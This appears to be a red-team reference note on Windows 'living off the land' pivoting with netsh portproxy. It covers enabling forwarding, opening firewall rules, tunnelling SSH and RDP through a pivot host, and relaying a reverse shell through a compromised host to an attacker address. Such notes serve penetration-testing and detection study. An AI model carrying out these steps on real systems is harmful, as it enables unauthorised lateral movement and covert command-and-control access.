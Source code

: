 # Living off the Land

## 01 - Usage

> [!IMPORTANT] Conditions
>  [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xC - Networking/Network Configuration/Packet Forwarding|Packet forwarding]] must be enabled.

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v IPEnableRouter /t REG_DWORD /d 0x1 /f
```

```
PS C:\> Set-NetIPInterface -Forwarding Enabled
```

Both services of `IP Helper` and **IPv6 support** must be enabled. To ensure they're enabled here are the following commands:

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\services\iphlpsvc" /v Start /t REG_DWORD /d 2 /f

C:\> sc.exe [\\<IP>] config iphlpsvc start= auto

C:\> net.exe start "IP Helper"

C:\> sc.exe [\\<IP>] start iphlpsvc
```

> [!NOTE] Elevated Privileges is Required
> `netsh interface portproxy` must be executed with administrative rights.

```
C:\> netsh.exe interface portproxy add <v4tov4 | v4tov6 | v6tov4 | v6tov6> listenport=<LPORT> listenaddress=<LHOST> connectport=<FPORT> connectaddress=<FHOST>
```

Display port forwarding rules.

```
C:\> netsh.exe interface portproxy show <all | v4tov4 | v4tov6 | v6tov4 | v6tov6>
```

Delete port forwarding rule.

```
C:\> netsh.exe interface portproxy delete v4tov4 listenaddress=<LHOST> listenport=<LPORT>
```

Flush port forwarding rules.

```
C:\> netsh.exe interface portproxy reset [ipv4 | ipv6]
```

## 02 - Scenarios

### 2.1 - Bind SSH Port

Grab the SSH port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=4242 listenaddress=<pivot_IP | 0.0.0.0> connectport=22 connectaddress=192.168.0.101
```

In command prompt

```
C:\> netstat.exe -anp TCP | find.exe "4242"

C:\> tasklist.exe | findstr.exe :4242
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 4242
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward SSH" protocol=tcp dir=in localip=<pivot_IP> localport=4242 action=allow
```

Remotely authenticate SSH server

```
$ ssh <username>@<pivot_IP> -p 4242
```

### 2.2 - Bind RDP Port

Grab the RDP port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<pivot_IP | 0.0.0.0> connectport=3389 connectaddress=<RDP_IP>
```

In command prompt

```
C:\> netstat.exe -na | findstr.exe "8080"

C:\> tasklist.exe | findstr.exe :8080
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8080
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward RDP" protocol=tcp dir=in localip=<pivot_IP> localport=8080 action=allow
```

Remotely authenticate RDP server

```
$ xfreerdp /v:<pivot_IP>:8080 /u:<username> /p:<password> /sec:<rdp | tls | nla>
```

### 2.3 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8443 listenaddress=0.0.0.0 connectport=8443 connectaddress=<attacker_IP>
```

Check for 8443 listening port in command prompt.

```
C:\> netstat.exe -na | findstr.exe "8443"

C:\> tasklist.exe | findstr.exe :8443
```

Check for 8443 listening port in powershell.

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8443
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward Payload" protocol=tcp dir=in localip=<compromised_pivot_IP> localport=8443 action=allow
```

Then you can launch a reverse shell handler with any C2 frameworks. Just specify the compromised system's IP and PORT.

---
## References

### Backlinks

- [[Rinetd]]

### InternalAllTheThings

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

### Slayer Labs

- [Slayer Labs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Slayer Labs: Kerberos Double-Hop Workarounds](https://posts.slayerlabs.com/double-hop/)

### Shell is Coming

- [Shell is coming: Metasploit Chain of Proxies](https://www.shelliscoming.com/2013/08/metasploit-chain-of-proxies-with.html)

### DFIR Notes

- [DFIR Notes: PortProxy Detection](https://www.dfirnotes.net/portproxy_detection/)
